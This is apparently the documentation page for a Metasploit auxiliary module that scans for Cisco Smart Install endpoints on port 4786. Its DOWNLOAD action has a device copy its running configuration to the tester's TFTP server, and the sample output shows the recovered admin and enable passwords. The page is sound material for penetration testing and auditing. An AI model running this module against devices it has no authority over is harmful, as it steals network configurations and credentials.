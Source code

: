 ## Vulnerable Application

  Any system exposing the Cisco Smart Install (SMI) protocol, which typically runs on TCP port 4786.

## Verification Steps

  1. Do: ```use auxiliary/scanner/misc/cisco_smart_install```
  2. Do: ```set ACTION SCAN```
  3. Do: ```set [RHOSTS]```, replacing ```[RHOSTS]``` with a list of hosts to test for the presence of SMI
  3. Do: ```run```
  4. If the host is exposing an identifiable SMI instance, it will print the endpoint.

## Options

### SLEEP
Time to wait for connection back from target. Default is `60` seconds if using `DOWNLOAD` action

### LHOST
Address to bind to for TFTP server to accept connections if using `DOWNLOAD` action

## Actions
There are two actions, default being ```SCAN```

  1. **SCAN** - Scan for Smart Install endpoints. [Default]
  2. **DOWNLOAD** - Request devices configuration and send to our TFTP server

## Scenarios

Using the default `SCAN` action
  ```
msf auxiliary(cisco_smart_install) > run

[*] Scanned  57 of 512 hosts (11% complete)
[*] Scanned 105 of 512 hosts (20% complete)
[*] Scanned 157 of 512 hosts (30% complete)
[*] Scanned 212 of 512 hosts (41% complete)
[*] Scanned 256 of 512 hosts (50% complete)
[*] Scanned 310 of 512 hosts (60% complete)
[*] Scanned 368 of 512 hosts (71% complete)
[*] Scanned 413 of 512 hosts (80% complete)
[*] Scanned 466 of 512 hosts (91% complete)
[+] a.b.c.d:4786   - Fingerprinted the Cisco Smart Install protocol
[*] Scanned 512 of 512 hosts (100% complete)
[*] Auxiliary module execution completed
```

Using the `DOWNLOAD` action

  ```
[*] 192.168.0.26:4786      - Starting TFTP Server...
[+] 192.168.0.26:4786      - Fingerprinted the Cisco Smart Install protocol
[*] 192.168.0.26:4786      - Attempting copy system:running-config tftp://192.168.0.11/kWqjngYF
[*] 192.168.0.26:4786      - Waiting 60 seconds for configuration
[*] 192.168.0.26:4786      - Incoming file from 192.168.0.26 - kWqjngYF (31036 bytes)
[+] 192.168.0.26:4786      - 192.168.0.26:4786 Decrypted Enable Password: testcase
[+] 192.168.0.26:4786      - 192.168.0.26:4786 Username 'admin' with Decrypted Password: testcase)
[*] 192.168.0.26:4786      - Providing some time for transfers to complete...
[*] 192.168.0.26:4786      - Shutting down the TFTP service...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
